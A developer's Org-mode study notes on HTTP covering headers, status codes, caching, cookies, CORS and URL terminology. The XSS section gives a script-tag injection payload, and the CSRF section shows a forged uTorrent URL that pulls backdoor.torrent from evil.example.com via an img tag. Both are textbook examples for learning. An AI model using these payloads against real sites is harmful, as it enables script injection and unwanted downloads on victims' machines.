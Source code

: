 #+TITLE: HTTP

* Headers
** HTTP referer
- Misspelling of *referrer*
- There are some tricky parts when requesting between HTTPS and HTTP ([[https://isc.sans.edu/forums/diary/When+does+your+browser+send+a+Referer+header+or+not/16433/][detail]])

#+BEGIN_EXAMPLE
  Referer: https://developer.mozilla.org/en-US/docs/Web/JavaScript
#+END_EXAMPLE

#+BEGIN_QUOTE
when a user clicks a hyperlink in a web browser, the browser sends a request to the server holding the destination webpage.
The request includes the referer field, which indicates the last page the user was on (the one where they clicked the link).
#+END_QUOTE

:REFERENCES:
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referer
- https://en.wikipedia.org/wiki/HTTP_referer
- https://isc.sans.edu/forums/diary/When+does+your+browser+send+a+Referer+header+or+not/16433/
:END:

* Response status codes
** 204 No Content
- Designates that the client *doesn't need to go away from its current page.*

:REFERENCES:
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/204
:END:

** 401 Unauthorized
#+BEGIN_QUOTE
“you aren’t authenticated–either not authenticated at all or authenticated incorrectly–but please reauthenticate and try again.”
#+END_QUOTE

:REFERENCES:
- https://stackoverflow.com/questions/3297048/403-forbidden-vs-401-unauthorized-http-responses
:END:

** 403 Forbidden
#+BEGIN_QUOTE
“I’m sorry. I know who you are–I believe who you say you are–but you just don’t have permission to access this resource. Maybe if you ask the system administrator nicely, you’ll get permission. But please don’t bother me again until your predicament changes.”
#+END_QUOTE

:REFERENCES:
- https://stackoverflow.com/questions/3297048/403-forbidden-vs-401-unauthorized-http-responses
:END:

** 409 Conflict
- When ~PUT~ request cannot be completed because of a conflict with the current state of the resource.
- It can be okay as a response of ~POST~, but not common because ~POST~ request as a creation would generally cause no conflicts.

:REFERENCES:
- https://stackoverflow.com/questions/3825990/http-response-code-for-post-when-resource-already-exists
:END:

* Topics
** Cache Control
:REFERENCES:
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cache-Control
:END:

*** Request
#+BEGIN_EXAMPLE
  Cache-Control: max-age=<seconds>
  Cache-Control: max-stale[=<seconds>]
  Cache-Control: min-fresh=<seconds>
  Cache-Control: no-cache 
  Cache-Control: no-store
  Cache-Control: no-transform
  Cache-Control: only-if-cached
#+END_EXAMPLE

*** response
#+BEGIN_EXAMPLE
  Cache-Control: must-revalidate
  Cache-Control: no-cache
  Cache-Control: no-store
  Cache-Control: no-transform
  Cache-Control: public
  Cache-Control: private
  Cache-Control: proxy-revalidate
  Cache-Control: max-age=<seconds>
  Cache-Control: s-maxage=<seconds>
#+END_EXAMPLE

** Cookies
#+BEGIN_QUOTE
Yes, as long as the URL requested is within the same domain and path defined in the cookie
(and all of the other restrictions -- secure, httponly, not expired, etc) hold,
then the cookie will be sent for every request.
#+END_QUOTE

:REFERENCES:
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
- https://stackoverflow.com/questions/1336126/does-every-web-request-send-the-browser-cookies
:END:

*** Set-Cookie
#+BEGIN_EXAMPLE
  Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
#+END_EXAMPLE

- https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies#Secure_and_HttpOnly_cookies
- Secure   :: The cookies that are set can only be sent over HTTPS
- HttpOnly :: The cookies that are set cannot be retrieved with JS. Only be sent to the designated server.

** Accept vs. Content-Type
#+BEGIN_QUOTE
~Accept~ header is used by HTTP clients to tell the server what content types they'll accept.
The server will then send back a response, which will include a ~Content-Type~ header
telling the client what the content type of the returned content actually is.
#+END_QUOTE

The ~Content-Type~ header on HTTP Request is for the payload of ~POST~ or ~PUT~, which tells the server how the payload is formed.

:REFERENCES:
- https://webmasters.stackexchange.com/questions/31212/difference-between-the-accept-and-content-type-http-headers
:END:

** When is the Authorization header automatically sent by the browser?
Only types like ~Basic~, ~NTLM~ of ~Authorization~ header is sent automatically by browser in following cases:
#+BEGIN_QUOTE
The ~Authorization~ header field allows a user agent to authenticate itself with an origin server --
 usually, but not necessarily, after receiving a 401 (Unauthorized) response.
#+END_QUOTE

On the other hand, other types must explicitly be added by JS.
#+BEGIN_QUOTE
A ~Bearer~ token in the ~Authorization~ header necessarily requires being added by JavaScript
because *the browser will never include it*
#+END_QUOTE

:REFERENCES:
- https://stackoverflow.com/questions/15427650/when-is-the-authorization-header-automatically-sent-by-the-browser
- https://security.stackexchange.com/questions/172637/will-authorization-bearer-in-request-header-fix-csrf-attacks
:END:

** Basic access authentication
#+BEGIN_QUOTE
Because the BA field(~Authorization: Basic~) has to be sent in the header of *each HTTP request*,
the web browser needs to cache credentials for a reasonable period of time to avoid constantly prompting the user for their username and password.
Caching policy differs between browsers.
Microsoft Internet Explorer by default caches them for 15 minutes.[1]
#+END_QUOTE

:REFERENCES:
- https://en.wikipedia.org/wiki/Basic_access_authentication
:END:

** Web Storage vs. Cookies
Does your authn token protect anything to do with money?
- You'll probably want the cookie httpOnly secure option.

Is the level of effort required to implement CSRF protection not worth the assets it's protecting?
- Then the Web Storage might be the right place.

:REFERENCES:
- https://auth0.com/docs/security/store-tokens
- https://stackoverflow.com/questions/35291573/csrf-protection-with-json-web-tokens
:END:

*** Web Storage
There are two types of Web Storage:
- localStorage   :: data persists until explicitly deleted.
- sessionStorage :: Once the window is closed, the storage is deleted.

Web Storage is safe from CSRF attacks, since it doesn't automatically send its contents.

However, there are some disadvantages compared to Cookies:
- sandboxed to a specific domain
- accessible through JS, which means that it's vulnerable to XSS attacks

*** Cookies
Disadvantages compared to Web Storages:
- 4KB of max size (it counts all elements like name, value, expiry date)
- vulnerable to CSRF attacks

** CORS (Cross Origin Resource Sharing)
CORS is for invocations of the [[https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest][XMLHttpRequest]] or [[https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API][Fetch API]], and other resources like images and fonts.

:REFERENCES:
- https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS
:END:

*** Simple Requests
With some limited conditions, CORS works as normal requests by just adding some headers 
like ~Origin~ on requests and ~Access-Control-Allow-Origin~ on responses.
This type of requests is usually a kind of read access, like ~GET~, ~HEAD~, ~POST~

*** Preflighted Requests
If some requests is unable to comply the simple requests conditions, it should go with Preflighted Requests.
With this process, the client sends an ~OPTION~ request first, and make the actual request using the ~OPTION~ response.
This type of requests is usually a kind of write access, like ~PUT~, ~DELETE~

When you send an ~OPTION~ request, you should include some headers like ~Access-Control-Request-Method~, ~Access-Control-Request-Headers~
Here is an example respond of the ~OPTION~ request.
#+BEGIN_EXAMPLE
  Access-Control-Allow-Origin: http://foo.example
  Access-Control-Allow-Methods: POST, GET, OPTIONS
  Access-Control-Allow-Headers: X-PINGOTHER, Content-Type
  Access-Control-Max-Age: 86400
#+END_EXAMPLE

:REFERENCES:
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/OPTIONS
:END:

*** XMLHttpRequest.withCredentials and Access-Control-Allow-Credentials
If ~withCredentials~ is set to ~true~ on the request, the CORS request will send cookies, ~Authorization~ header, etc.

~Access-Control-Allow-Credentials~: When used as part of a response to a preflight request,
this indicates whether or not the actual request can be made using credentials.
If this response doesn't contain ~Access-Control-Allow-Credentials: true~,
it won't provide the actual response.

The cookie created through this process will be treated as the third party cookie.

:REFERENCES:
- https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/withCredentials
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Access-Control-Allow-Credentials
:END:

*** Same-origin policy
#+BEGIN_QUOTE
The same-origin policy is a key mechanism implemented within browsers
that is designed to keep content that came from different origins
from interfering with each other.
#+END_QUOTE

Without Same-origin policy, any JS code would access other domains resources. 

[[file:_img/screenshot_2018-03-19_01-16-27.png]]

:REFERENCES:
- https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy
- https://security.stackexchange.com/questions/8264/why-is-the-same-origin-policy-so-important
- https://en.wikipedia.org/wiki/Same-origin_policy
:END:

*** JSONP
:REFERENCES:
- https://en.wikipedia.org/wiki/JSONP
:END:
JSON with Padding. A way to circumvent Same-origin policy before the adoption of ~CORS~.

#+BEGIN_SRC html
  <script type="application/javascript"
          src="http://server.example.com/Users/1234?callback=parseResponse">
  </script>
#+END_SRC

#+BEGIN_SRC js
  parseResponse({"Name": "Foo", "Id": 1234, "Rank": 7});
#+END_SRC

** XSS (Cross-site scripting)
An attacker observes that target website contains a reflected XSS vulnerability:
1. Search feature: If no results were found, the page will display the url with the query term, like http://bobssite.org?q=term.
2. Submit a search query with a term like ~<script type='text/javascript'>alert('xss');</script>~
3. An alert box appears (that says ~xss~).
4. The url is ~http://bobssite.org?q=<script%20type='text/javascript'>alert('xss');</script>~
5. The attacker sends an e-mail which contains a link to the forged url.
6. The victim gets the link and executes the attackers script.

:REFERENCES:
- https://en.wikipedia.org/wiki/Cross-site_scripting
:END:

** CSRF (Cross-site request forgery)
Force a ~.torrent~ file download:
1. uTorrent's web console is accessible at ~localhost:8080~
2. Forge a url make uTorrent download ~backdoor.torrent~ automatically
   - ~http://localhost:8080/gui/?action=add-url&s=http://evil.example.com/backdoor.torrent~
3. Inject the forged url as ~<img>~ tag like: ~<img src="<url>">~
4. The victim opens the page containg the tag and download ~backdoor.torrent~ inadvertently.

:REFERENCES:
- https://en.wikipedia.org/wiki/Cross-site_request_forgery
:END:

** URL vs URI vs URN
| Name (Uniform Resource -) | Example                                 | Note                                                                                                         |
|---------------------------+-----------------------------------------+--------------------------------------------------------------------------------------------------------------|
| ~URI~ (Identifier)        | ~https://www.google.co.kr/search?q=uri~ |                                                                                                              |
| ~URL~ (Locator)           | ~https://www.google.co.kr/search~       | Subset of ~URI~, contains only about location                                                                |
| ~URN~ (Name)              | ~urn:google:search:uri~                 | Subset of ~URI~, doesn't necessarily tell you how to locate it on the internet. Usually Prefixed with ~urn:~ |

[[file:_img/screenshot_2017-06-03_15-46-11.png]]

:REFERENCES:
- https://stackoverflow.com/questions/176264/what-is-the-difference-between-a-uri-a-url-and-a-urn
:END:

** Valid URL characters
[[file:_img/screenshot_2018-05-11_12-49-59.png]]

:REFERENCES:
- https://stackoverflow.com/questions/7109143/what-characters-are-valid-in-a-url
:END:

** Endpoint
- A web ~endpoint~ is ~URL~ that another program would use to communicate with your program.

:REFERENCES:
- https://stackoverflow.com/questions/9807382/what-is-a-web-service-endpoint
:END:
